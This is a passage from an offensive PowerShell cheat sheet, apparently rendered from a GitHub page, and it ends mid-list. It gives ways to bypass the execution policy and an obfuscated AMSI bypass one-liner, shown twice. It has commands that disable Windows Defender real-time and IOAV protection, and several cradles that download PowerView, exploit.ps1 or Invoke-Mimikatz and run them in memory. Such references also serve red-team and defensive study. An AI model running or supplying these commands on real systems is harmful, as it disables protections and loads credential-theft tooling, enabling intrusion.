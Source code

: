 ```
PS C:\> powershell -ExecutionPolicy bypass
OR
PS C:\> powershell -c <cmd>
OR
PS C:\> powershell -encodedcommand
OR
PS C:\> $env:PSExecutionPolicyPreference="bypass"
```

- Bypass AMSI

```
PS C:\> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
OR
PS C:\> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

- Disable Windows Defender

```
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true
```

- Disable IOAV Protection

```
PS C:\> Set-MpPreference -DisableIOAVProtection $true
```

- Check the AppLocker policy (look for exempted binaries or paths to bypass)

```
PS C:\> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

- Check the language mode

```
PS C:\> $ExecutionContext.SessionState.LanguageMode
```

### PowerShell Script Execution

- Download and execute a PowerShell script in memory

```
PS C:\> iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
OR
PS C:\> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://<IP address>/exploit.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
OR
PS C:\> iex (iwr 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')        # PSv3 onwards
OR
PS C:\> iex (iwr 'http://<IP address>/Invoke-Mimikatz.ps1' -UseBasicParsing)
OR
PS C:\> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1',$false);$h.send();iex $h.responseText
OR
```